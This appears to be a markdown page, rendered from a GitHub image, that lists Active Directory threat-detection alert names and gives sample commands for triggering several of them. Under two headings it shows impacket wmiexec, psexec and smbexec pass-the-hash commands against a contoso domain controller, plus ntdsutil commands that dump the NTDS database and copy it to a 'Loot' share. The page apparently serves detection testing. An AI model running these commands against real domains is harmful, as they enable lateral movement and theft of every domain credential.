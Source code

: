### Suspected over-pass-the-hash attack (forced encryption type)

## Other

### Suspected DCShadow attack (domain controller promotion)

### Suspected DCShadow attack (domain controller replication request)

### Suspicious VPN connection

### Remote code execution attempt

```bash
impacket-wmiexec -hashes :92937945b518814341de3f726500d4ff 'contoso/Admin@contoso-dc.contoso.com' systeminfo
```

```bash
impacket-psexec -hashes :92937945b518814341de3f726500d4ff 'contoso/Admin@contoso-dc.contoso.com' hostname
```

```bash
impacket-smbexec -hashes :92937945b518814341de3f726500d4ff 'contoso/Admin@contoso-dc.contoso.com'
systeminfo
```

```powershell
Invoke-Command -ComputerName CONTOSO-DC -ScriptBlock { systeminfo }
```

### Suspicious service creation

### Suspicious communication over DNS

### Data exfiltration over SMB

```cmd
ntdsutil.exe "ac in ntds" ifm "create full C:\ADBackup" quit quit
robocopy.exe C:\ADBackup \\local\Loot\ADBackup /S /NDL /NJH /NJS
```

### Suspicious deletion of the certificate database entries

### Suspicious disable of audit filters of AD CS

### Directory Services Restore Mode Password Change

### Possible Okta session theft

### Possible takeover of a Microsoft Entra seamless SSO account

### Suspicious SPN was added to a user

### Suspicious creation of ESXi group
